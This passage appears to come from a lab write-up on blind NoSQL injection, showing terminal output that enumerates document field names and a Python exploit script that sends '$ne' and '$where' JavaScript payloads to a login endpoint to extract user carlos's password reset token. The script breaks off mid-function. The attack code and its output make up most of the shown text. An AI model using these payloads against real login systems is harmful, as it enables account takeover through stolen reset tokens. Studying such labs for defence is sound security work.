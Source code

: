 ```shell
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Field name: password
[*] Sending payload: Object.keys(this)[3].match("^p.*")
[+] Found valid character "p" on field position 3
[...]
[*] Sending payload: Object.keys(this)[3].match("^pwResetTkn.*")
[+] Found valid character "n" on field position 3
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Field name: pwResetTkn
```

Nice! We extracted 3 fields: **`username`, `password`, and `pwResetTkn`.**

Hmm... **The `pwResetTkn` sounds like password reset token.**

**That being said, let's extract the password reset token for user `carlos`!**

**This time, we can use the field name and `match()` JavaScript function as our payload:**
```javascript
this.pwResetTkn[0].match('<character_here>.*')
```

**Or, we can use:**
```javascript
this.pwResetTkn[<character_index>] == '<character>'
```

If the character is correct, it'll response "Account locked: please reset your password". Otherwise response "Invalid username or password".

Since I used the first method in extracting field names, I'll try to use the second method.

**To do so, I'll modify the Python script:**
```python
import requests
from string import ascii_letters, digits

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.LOGIN_ENDPOINT = '/login'
        self.USERNAME = 'carlos'
        self.PASSWORD = {
            '$ne': 'foobar'
        }
        self.CHARACTER_SET = ascii_letters + digits
        self.LAST_CHARACTER = self.CHARACTER_SET[-1]

    def extractFieldNames(self, fieldPosition):
        fieldName = str()
        while True:
            for character in self.CHARACTER_SET:
                payload = f'^{fieldName}{character}.*' if fieldName else f'^{character}.*'
                whereOperatorKey = f'Object.keys(this)[{fieldPosition}].match("{payload}")'
                print(f'[*] Sending payload: {whereOperatorKey}', end='\r')

                loginData = {
                    'username': self.USERNAME,
                    'password': self.PASSWORD,
                    '$where': whereOperatorKey
                }
                loginRespond = requests.post(f'{self.baseUrl}{self.LOGIN_ENDPOINT}', json=loginData)
                isValidCharacter = False if 'Invalid username' in loginRespond.text else True
                isEmptyFieldName = True if len(fieldName) == 0 else False
                isLastCharacter = character == self.LAST_CHARACTER

```